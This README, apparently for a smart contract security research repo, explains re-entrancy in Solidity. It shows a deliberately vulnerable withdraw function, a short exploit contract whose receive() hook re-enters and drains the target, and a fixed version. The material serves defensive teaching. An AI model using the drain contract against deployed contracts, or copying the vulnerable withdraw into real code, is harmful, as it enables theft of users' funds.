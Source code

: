 # 🚧 WORK IN PROGRESS 🚧

# Security research

This repo aims to cover the most common security vulnerabilities in EVM smart contracts,
and provides a set of tools to help developers to find and fix them.
Vulnerabilities are categorized by their type, each type has an example of a vulnerable contract,
a fixed contract (proof) and an exploit to verify the vulnerability.

- [Re-entrancy](#reentrancy-attack)
- [Withdrawal Pattern](#withdrawal-pattern)

## ReEntrancy Attack

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy)

A re-entrancy attack can happen when the **Checks-Effects-Interactions** pattern is not
respected during contracts development.

- **Check**: Validate parameters before modifying the state

- **Effects**: Change the state

- **Interactions**: Call other contracts after storage has been updated accordingly

Every time an interaction is made, the cycle starts again.

### Vulnerable withdraw

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyVulnerable.sol)

```solidity
    /**
     * @dev Function to withdraw your deposited funds **vulnerable - do not use**
     */
    function withdraw() public {
        /**
         * @dev The interaction is made BEFORE the state update
         *      **wrong**
         */
        (bool success, ) = msg.sender.call{value: balances[msg.sender]}("");

        /**
         * @dev Update the state
         *      **wrong**
         */
        if (success) balances[msg.sender] = 0;
    }
```

### ReEntrancy Exploit

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyExploit.sol)

Contract to exploit the vulnerable contract, it can be used to drain the contract balance.
The receive function, fired on plain Ether transfers, is used to trigger the re-entrancy attack.

```solidity
 /**
     * @dev Function to attack target contract
     */
    function exploit() external payable {
        require(msg.value >= 1 ether);
        target.deposit{value: 1 ether}();
        target.withdraw();
    }

    /**
     * @dev Function executed on plain Ether transfers
     */
    receive() external payable {
        if (
            address(target).balance >= 1 ether
        ) {
            target.withdraw();
        }
    }
```

### Fixed withdraw

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyProof.sol)

This contract is free from re-entrancy attacks

```solidity
    /**
     * @dev Function to withdraw your deposited funds
     */
    function withdraw() public {
        /**
         * @dev Update the state
         *      **right**
         */
        uint256 amount = balances[msg.sender];
        balances[msg.sender] = 0;

        /**
         * @dev The interaction is made AFTER the state update
         *      **right**
         */
        (bool success, ) = msg.sender.call{value: amount}("");

        /**
         * @dev Check if the interaction was successful
         *      **right**
         */
        require(success, "Transfer failed.");
    }
```

## Withdrawal Pattern

## Installation

```bash
forge install
forge test
```
